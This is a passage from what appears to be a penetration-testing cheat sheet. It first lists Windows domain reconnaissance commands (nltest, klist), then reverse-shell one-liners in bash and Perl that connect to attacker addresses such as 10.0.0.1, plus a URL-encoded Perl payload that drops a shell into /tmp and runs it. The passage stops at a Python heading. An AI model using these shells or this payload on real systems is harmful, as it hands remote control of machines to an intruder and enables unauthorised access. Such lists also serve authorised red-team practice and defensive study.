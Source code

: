 ```bash
# get user info
nltest /user:"spotless"

​# get DC for currently authenticated session
set l

​# get domain name and DC the user authenticated to
klist

​# get all logon sessions. Includes NTLM authenticated sessions
klist sessions​

# kerberos tickets for the session
klist​

# cached krbtgt
klist tgt

​# whoami on older Windows systems
set u
```

## Gaining Access <a id="gaining-access"></a>

### Reverse Shell One-Liners <a id="reverse-shell-one-liners"></a>

#### Bash <a id="bash"></a>

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Perl <a id="perl"></a>

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### URL-Encoded Perl: Linux <a id="url-encoded-perl-linux"></a>

```bash
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
```

#### Python <a id="python"></a>
